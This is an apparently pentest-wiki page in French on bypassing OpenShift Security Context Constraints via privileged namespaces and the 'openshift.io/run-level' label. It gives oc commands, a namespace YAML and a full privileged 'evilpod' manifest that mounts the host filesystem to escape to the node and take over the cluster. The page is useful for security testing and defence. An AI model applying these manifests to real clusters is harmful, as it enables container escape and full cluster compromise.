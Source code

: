 # Openshift - SCC bypass

**L'auteur original de cette page est** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Espaces de noms privilégiés

Par défaut, SCC ne s'applique pas sur les projets suivants :

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Si vous déployez des pods dans l'un de ces espaces de noms, aucun SCC ne sera appliqué, permettant le déploiement de pods privilégiés ou le montage du système de fichiers hôte.

## Étiquette d'espace de noms

Il existe un moyen de désactiver l'application SCC sur votre pod selon la documentation de RedHat. Vous devrez avoir au moins l'une des permissions suivantes :

- Créer un espace de noms et créer un pod dans cet espace de noms
- Modifier un espace de noms et créer un pod dans cet espace de noms
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
L'étiquette spécifique `openshift.io/run-level` permet aux utilisateurs de contourner les SCC pour les applications. Selon la documentation de RedHat, lorsque cette étiquette est utilisée, aucune SCC n'est appliquée à tous les pods dans cet espace de noms, supprimant ainsi toute restriction.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Ajouter une étiquette

Pour ajouter l'étiquette dans votre espace de noms :
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Pour créer un espace de noms avec l'étiquette via un fichier YAML :
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Maintenant, tous les nouveaux pods créés dans l'espace de noms ne devraient avoir aucun SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

En l'absence de SCC, il n'y a aucune restriction sur la définition de votre pod. Cela signifie qu'un pod malveillant peut être facilement créé pour s'échapper sur le système hôte.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Maintenant, il est devenu plus facile d'escalader les privilèges pour accéder au système hôte et par la suite prendre le contrôle de l'ensemble du cluster, obtenant des privilèges 'cluster-admin'. Recherchez la partie **Node-Post Exploitation** dans la page suivante :

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Étiquettes personnalisées

De plus, en fonction de la configuration cible, certaines étiquettes / annotations personnalisées peuvent être utilisées de la même manière que le scénario d'attaque précédent. Même si ce n'est pas prévu, les étiquettes pourraient être utilisées pour donner des permissions, restreindre ou non une ressource spécifique.

Essayez de rechercher des étiquettes personnalisées si vous pouvez lire certaines ressources. Voici une liste de ressources intéressantes :

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Lister tous les espaces de noms privilégiés
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Exploit avancé

Dans OpenShift, comme démontré précédemment, avoir la permission de déployer un pod dans un espace de noms avec l'étiquette `openshift.io/run-level` peut conduire à une prise de contrôle directe du cluster. Du point de vue des paramètres du cluster, cette fonctionnalité **ne peut pas être désactivée**, car elle est inhérente à la conception d'OpenShift.

Cependant, des mesures d'atténuation comme **Open Policy Agent GateKeeper** peuvent empêcher les utilisateurs de définir cette étiquette.

Pour contourner les règles de GateKeeper et définir cette étiquette pour exécuter une prise de contrôle du cluster, **les attaquants devraient identifier des méthodes alternatives.**

## Références

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
